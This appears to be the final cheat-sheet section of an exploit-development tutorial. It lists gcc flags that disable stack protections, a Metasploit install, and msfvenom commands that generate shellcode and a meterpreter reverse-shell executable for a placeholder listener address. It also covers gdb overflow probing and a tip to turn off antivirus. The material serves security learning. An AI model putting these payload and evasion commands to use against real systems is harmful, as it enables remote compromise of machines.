 #### Essential Compilation Flags

bash

```
# 32-bit, no protections (learning)
gcc -m32 -fno-stack-protector -z execstack vuln.c -o vuln

# 32-bit with DEP
gcc -m32 -fno-stack-protector vuln.c -o vuln_dep

# 32-bit with all protections
gcc -m32 vuln.c -o vuln_secure

# 64-bit
gcc -fno-stack-protector -z execstack vuln.c -o vuln64
```

#### Metasploit Quick Reference

bash

```
# Install
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod +x msfinstall
sudo ./msfinstall

# Generate payloads
msfvenom -p windows/exec CMD=calc.exe -f c -a x86 -b '\x00'
msfvenom -p linux/x86/exec CMD=/bin/sh -f c -a x86
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=4444 -f exe > payload.exe
```

#### Debugging Commands

bash

```
# Linux debugging
gdb ./program
run $(python -c "print 'A'*100")
info registers
x/10wx $esp

# Windows testing
gcc test_shellcode.c -o test_shellcode.exe
# Disable AV temporarily for testing!
```

***

### Conclusion
